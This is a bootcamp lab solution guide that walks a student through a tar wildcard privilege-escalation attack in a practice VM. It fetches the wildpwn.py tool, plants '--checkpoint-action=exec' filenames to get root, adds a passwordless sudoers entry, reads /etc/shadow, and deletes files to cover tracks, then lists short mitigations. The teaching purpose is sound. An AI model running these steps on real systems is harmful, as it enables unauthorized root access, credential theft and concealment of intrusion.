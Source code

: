 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Archiving the directory with `tar` to run the exploit.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 

### Solutions

1. In your VM, switch to the user `jane`, and verify that you have no `sudo` privileges:

   - Run `su jane`. Use `password` as the password.

   - Run `sudo -l` to see that you do not have **super user** privileges.

### Verifying the automated backups

Look for the automatically archived `tar` backup file:

2. As `jane`:

- Run `cd ~/Documents`

- Run `ls -l` to see the archive file, `jane_docs_backup.tar`.

  ```
  -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
  ```

### Downloading the Script

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```

### Generating the Payload

4. Use `wildpwn.py` to generate the malicious files by running:

- Within the `ExploitTar` directory, run: 

- `python wildpwn.py tar .` which will show:

  ```
  [!] Selected payload: tar
  [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
  ```

- Then run `ls -lat` to see our new payload files:

  ```
  total 20
  drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
  -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
  -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
  -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
  drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
  -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
  drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
  -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
  -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
  ...
  ...
  ```

### Verify the Payload is Staged

5. After waiting 1-2 minutes, we can re-run `ls -lat` to see that the contents of the directory have changed!

- Run `ls -lat` to see:

  ```
  total 20
  drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
  drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
  drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
  -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
  drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
  -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
  -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
  ```

Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`. To see it:

- `ls -lat`  to show the hidden `.cache` directory

   - Recall `ls` options: 
     - `-l` will show a long-list format of the files, 
     - `-a` will show entries starting with a `.`, and 
     - `-t` will sort by _time modified_, which we want due to the nature of this exploit.

- `cd .cache` to navigate _into_ the `.cache` directory

- `ls -lat` to show the hidden `.cachefile` exploit file. 

### Execute the Exploit

6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:

   - `./.cachefile`  

- You'll see your user prompt change from `jane:$` to `root:#`!

### Become a Super User

7. Then, we'll want to add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges. Do the following while still logged in as `root`:

   - Run `visudo` and navigate to the following section of the file:

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL

This should allow us to run `sudo` commands as `jane` without having to enter a password.

### Test Your New Powers and Cover Your Tracks

8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
- Login back as `jane` with:  

  - `su jane`  

- Test your `sudo` permissions with:

  - `sudo -l`, and then

  - `sudo cat /etc/shadow` 

     - **Note**: If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't have needed  to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

- Then, remove the `ExploitTar` directory entirely to cover your tracks.

  - Run `rm -r ~/Documents/ExploitTar`

Congratulations! You have successfully executed what is known as a `tar wildcard attack`! This is a more discreet attack that can be carried out on Unix-based operating system with `tar` installed.

### Preventive Measures

9. Ways to prevent this attack in the future include:

   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.

### Wildcard Attack References

If you're curious about more information, visit the following references:

   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)

--- 

© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.